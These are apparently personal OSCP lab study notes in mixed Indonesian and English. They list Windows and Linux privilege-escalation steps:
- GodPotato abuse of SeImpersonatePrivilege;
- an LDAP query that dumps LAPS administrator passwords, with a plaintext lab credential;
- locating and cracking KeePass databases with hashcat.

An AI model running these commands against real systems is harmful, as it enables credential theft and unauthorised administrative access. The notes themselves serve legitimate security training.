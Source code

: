 18. Check .NET version (for GodPotato) (SeImpersonatePrivilege)
```cmd
reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP" /s

GodPotato-NET4.exe -cmd "cmd /c whoami"
```

19. Check C:\Program Files for LAPS (Administrator Password Solution (Windows LAPS).
> Biasanya ada hardcoded administrator password
> `ldapsearch -x -H 'ldap://192.168.167.122' -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b 'dc=hutch,dc=offsec' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd`
> [OSCP Practice Series 66] Proving Grounds-Hutch 

20. Find file versi powershell
```cmd
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

# EXPLOITING Keepas password manager
1. Akses secara GUI
```cmd
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

keepass2john Database.kdbx > keepass.hash

BUANG KATA Database: dari keepass.hash

hashcat --help | grep -i "KeePass"
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```
2. BISA AKSES .kdbx FILENYA PAKE KALI LINUX (kpcli)
```cmd
kpcli --kdb Database.kdbx
>> Masukkin master password yg udah dicrack
kpcli:/> ls
kpcli:/> cd Database/
kpcli:/> cd Database/
kpcli:/> General
kpcli:/> ls
kpcli:/> show 1
```



# Linux Privesc
https://gtfobins.github.io/
>> ALWAYS CHECK SUDO VERSION
>> FREEBSD OR OPENBSD LINUX MACHINE (SEARCH FOR Doas config files) >> RELIA .20 MACHINE
cat /usr/local/etc/doas.conf
https://dev.to/document10/a-simple-guide-for-configuring-sudo-and-doas-1k4k#:~:text=The%20default%20config%20is%20located,conf%20for%20FreeBSD.
>> **doas itu adalah alternative sudo di freebsd.**
https://book.hacktricks.xyz/linux-hardening/privilege-escalation
https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/doas/
